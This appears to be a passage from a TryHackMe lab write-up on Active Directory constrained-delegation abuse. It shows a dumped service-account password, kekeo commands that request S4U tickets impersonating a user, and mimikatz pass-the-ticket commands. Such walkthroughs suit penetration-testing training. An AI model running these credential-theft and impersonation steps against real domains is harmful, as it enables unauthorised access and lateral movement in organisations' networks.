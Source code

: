 As we can see, we got this:

```
Secret : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc
cur/text: Password1@
```

Nice, we can now proceed with `kekeo`, we need to revert our token first in order for the attack to succeed:

```
token::revert

exit
```

Now, open up `kekeo`:

```
C:\Tools\kekeo\x64\kekeo.exe
```


Now, we need to generate the TGT using the credentials we found:

```
tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@
```

![Pasted image 20250527125734.png](../../../IMAGES/Pasted%20image%2020250527125734.png)

Nice, we can now request a S4U TGS on behalf of `t1_trevor.jones` to `http` and `wsman` service:

```
tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc

tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc
```

Now that we have both, we need to start mimikatz again:

```
C:\Tools\mimikatz_trunk\x64\mimikatz.exe
```

Inside of mimikatz, we need to import the two TGS tickets, let's do:

```
privilege::debug

kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
```
